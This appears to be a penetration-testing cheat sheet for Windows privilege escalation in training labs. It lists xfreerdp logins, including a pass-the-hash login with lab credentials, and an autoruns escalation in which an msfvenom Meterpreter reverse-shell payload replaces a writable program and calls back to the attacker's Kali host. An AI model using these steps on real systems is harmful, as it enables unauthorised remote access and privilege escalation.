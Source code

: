 ### xfreerdp

```
xfreerdp /v:10.10.25.227 /u:Wade /p:parzival /cert:ignore /drive:/usr/share/windows-resources,share /dynamic-resolution
proxychains -f proxy9051.conf xfreerdp +clipboard /v:10.10.120.5 /d:RLAB /u:'SQL01$' /pth:47b071ssddff02d0f06770137996c /sec:nla /cert:ignore /drive:/home/kali/Documents/htb/rasta/map,share
```

**Credit**

* Taken from Tib3rius

### Basic Enumeration

* Find out the users on the box and enumerate their privlages

```
net users
net users Administrator
```

### Registry Escalation - Autoruns

* Detection
* Open command prompt and type:

```
C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
```

* In Autoruns, click on the `Logon` tab.
* From the listed results, notice that the “My Program” entry is pointing to

```
C:\Program Files\Autorun Program\program.exe
```

* In command prompt type:

```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```

* From the output, notice that the `"Everyone"` user group has `"FILE_ALL_ACCESS"` permission on the `"program.exe"` file.
* Exploitation
* Kali VM
* Open command prompt and type: `msfconsole`
* In Metasploit (msf > prompt) type: `use multi/handler`
* In Metasploit (msf > prompt) type: `set payload windows/meterpreter/reverse_tcp` or `windows/x64/shell/reverse_tcp`
* In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`
* In Metasploit (msf > prompt) type: `run`
* Open an additional command prompt and type: `msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe`
* Copy the generated file, `program.exe`, to the Windows VM.
* Windows VM
* Place `program.exe` in `C:\Program Files\Autorun Program`
* To simulate the privilege escalation effect, logoff and then log back on as an administrator user.
* Kali VM
* Wait for a new session to open in Metasploit.
* In Metasploit (msf > prompt) type: `sessions -i [Session ID]`
* To confirm that the attack succeeded, in Metasploit (msf > prompt) type: `getuid`
